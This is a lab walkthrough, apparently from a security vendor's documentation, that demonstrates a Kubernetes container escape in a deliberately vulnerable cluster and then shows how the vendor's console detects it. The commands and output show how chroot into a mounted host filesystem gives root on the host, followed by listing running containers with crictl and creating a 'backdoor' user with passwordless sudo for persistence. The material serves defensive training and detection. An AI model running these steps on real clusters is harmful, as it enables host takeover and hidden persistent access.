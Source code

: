 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```


Ideally, this shell is restricted to the container. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder that seems to link to the host machine.

```
tmpfs on /host-system type tmpfs (rw,relatime,size=7318352k)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, which gives us all kinds of access. For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

If you installed the Falco integration, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
3d7d82e569d3a       About an hour ago   Ready               falco-8tg8k                                  falco               3                   (default)
6d3463aca3379       About an hour ago   Ready               falco-falcosidekick-6f7996c855-s48w6         falco               3                   (default)
b7897f1847274       About an hour ago   Ready               falco-falcosidekick-6f7996c855-nfnd7         falco               3                   (default)
...
```

Let's look at the containers that are named Falco:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE               CREATED             STATE               NAME                       ATTEMPT             POD ID              POD
0a86211354518       f26819a025370       About an hour ago   Running             falcoctl-artifact-follow   3                   3d7d82e569d3a       falco-8tg8k
a7e18aca478f0       5d7f6e3db4150       About an hour ago   Running             falco                      3                   3d7d82e569d3a       falco-8tg8k
1cc6683c7aee4       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   b7897f1847274       falco-falcosidekick-6f7996c855-nfnd7
2a6b72c464d75       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   6d3463aca3379       falco-falcosidekick-6f7996c855-s48w6
```

At this point, we could `exec` into one of these containers and investigate logs or API keys, but for now, let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```
```
New password: hackme
Bad password: too weak
Retype password: hackme
passwd: password for backdoor changed by root
```

Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
visudo
```

Move to the bottom of the file, press `o` to open a new line, then add the `backdoor` line like this:

```
root ALL=(ALL) ALL
%wheel ALL=(ALL) NOPASSWD: ALL
backdoor ALL=(ALL) NOPASSWD: ALL
```

Press Escape and type `:wq` to write and quit. Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we had access to the entire Kubernetes cluster on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags which are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive shell, running the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser` and `visudo`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
